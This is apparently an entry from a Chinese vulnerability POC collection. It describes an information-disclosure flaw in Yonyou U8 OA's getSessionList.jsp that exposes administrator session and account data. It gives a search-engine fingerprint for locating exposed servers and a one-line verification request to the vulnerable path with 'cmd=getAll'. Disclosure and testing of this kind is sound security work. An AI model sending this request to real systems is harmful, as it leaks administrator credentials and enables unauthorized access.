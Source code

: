# 用友 U8 OA getSessionList.jsp 敏感信息泄漏漏洞

# 用友 U8 OA getSessionList.jsp 敏感信息泄漏漏洞

## 漏洞描述

用友 U8 OA getSessionList.jsp文件，通过漏洞攻击者可以获取数据库中管理员的账户信息

## 漏洞影响

```
用友 U8 OA
```

## 网络测绘

```
"用友U8-OA"
```

## 漏洞复现

登录页面

![image-20220520141805589](/images/202205201418731.png)

验证POC

```
/yyoa/ext/https/getSessionList.jsp?cmd=getAll
```

![image-20220520141832426](/images/202205201418464.png)

